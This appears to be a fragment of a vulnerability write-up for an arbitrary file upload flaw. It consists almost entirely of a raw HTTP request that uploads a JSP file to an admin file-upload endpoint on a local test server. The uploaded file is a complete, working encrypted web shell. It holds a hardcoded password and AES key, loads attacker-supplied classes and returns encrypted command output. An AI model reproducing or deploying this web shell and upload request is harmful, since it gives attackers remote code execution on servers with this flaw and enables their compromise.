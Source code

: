###### Data Pack

```bash
POST /uploadFileList HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------352203683622881217472510347558
Content-Length: 2854
Origin: http://localhost:8081
Connection: close
Referer: http://localhost:8081/adminFile
Cookie: JSESSIONID=F68B6E11EB57F40C26C413029E832793
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------352203683622881217472510347558
Content-Disposition: form-data; name="files[]"; filename="text.jsp"
Content-Type: application/octet-stream

<%! String xc="3c6e0b8a9c15224a"; String pass="pass"; String md5=md5(pass+xc); class X extends ClassLoader{public X(ClassLoader z){super(z);}public Class Q(byte[] cb){return super.defineClass(cb, 0, cb.length);} }public byte[] x(byte[] s,boolean m){ try{javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),"AES"));return c.doFinal(s); }catch (Exception e){return null; }} public static String md5(String s) {String ret = null;try {java.security.MessageDigest m;m = java.security.MessageDigest.getInstance("MD5");m.update(s.getBytes(), 0, s.length());ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();} catch (Exception e) {}return ret; } public static String base64Encode(byte[] bs) throws Exception {Class base64;String value = null;try {base64=Class.forName("java.util.Base64");Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);value = (String)Encoder.getClass().getMethod("encodeToString", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Encoder"); Object Encoder = base64.newInstance(); value = (String)Encoder.getClass().getMethod("encode", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e2) {}}return value; } public static byte[] base64Decode(String bs) throws Exception {Class base64;byte[] value = null;try {base64=Class.forName("java.util.Base64");Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Decoder"); Object decoder = base64.newInstance(); value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e2) {}}return value; }%><%try{byte[] data=base64Decode(request.getParameter(pass));data=x(data, false);if (session.getAttribute("payload")==null){session.setAttribute("payload",new X(this.getClass().getClassLoader()).Q(data));}else{request.setAttribute("parameters",data);java.io.ByteArrayOutputStream arrOut=new java.io.ByteArrayOutputStream();Object f=((Class)session.getAttribute("payload")).newInstance();f.equals(arrOut);f.equals(pageContext);response.getWriter().write(md5.substring(0,16));f.toString();response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true)));response.getWriter().write(md5.substring(16));} }catch (Exception e){}
%>
-----------------------------352203683622881217472510347558--
```

